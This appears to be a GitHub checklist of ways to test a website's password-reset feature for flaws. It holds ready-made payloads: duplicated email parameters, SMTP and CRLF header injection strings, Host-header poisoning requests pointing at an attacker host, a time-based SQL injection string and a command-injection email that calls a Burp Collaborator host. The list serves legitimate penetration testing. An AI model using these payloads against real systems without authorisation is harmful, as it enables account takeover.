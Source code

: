 # Testing-forget-Password-

1. Host Header Injection - Password Reset Poisoning
2. HPP:
email=v@g.com&email=a@g.com
email[]=v@g.com&email[]=a@g.com
email=v@g.com%20email=a@g.com
email=v@g.com|email=a@g.com
email=v@g.com,a@g.com
email=v@g.com%20a@g.com
{"email":"v@g.com","email":"a@g.com"}
{"email":["v@g.com","a@g.com"]}
3. IDOR
4. Broken Crypto
5. Password reset token Leakage via referral header
6. Token leakage in response/JS files.
7. Session/Token is not expiring after password reset.
8. Add only space in password.
9. Ask for 2 password reset links and try the older one
10. SMTP Injection: v@g.com%0d%0aCC%3aa@g.com%0d%0a
11. Use paramminer to discover additional parameters(or append previously known parameters) in the request. Now try IDOR.
12. Try:
POST https://attacker(.)com/resetpassword.php HTTP/1.1
POST 
@attacker
.com/resetpassword.php HTTP/1.1
POST :
@attacker
.com/resetpassword.php HTTP/1.1
POST /resetpassword.php@attacker.com HTTP/1.1
13. SQLi: test@test.com'+(select*from(select(sleep(2)))a)+'
14. Append a .json after the endpoint.
15. CRLF: /resetpassword?%0d%0aHost:%20attacker(.)com
16. Register with a username identical to the victim's username, but with white spaces inserted before and/or after the username("tuhin1729 ", " tuhin1729 " etc). Try a password reset for your account. Use the token to reset victim's password. Ex: CVE-2020-7245
17. DoS
18. If they are sending an otp for password reset, try 2fa bypass techniques.
19. During registration, use homograph in email. Now try password reset.
20. Change the request method and content-type and observer how the application is responding.
22. Try XSS, SSTI etc in the email field.
23. Try Command injection by email=hello@`whoami`.xyz.burpcollaborator.net
24. 2FA auto disabled after password reset.
25. User Enumeration
26. Check whether any param value is reflecting in the email. Now try HTMLi.

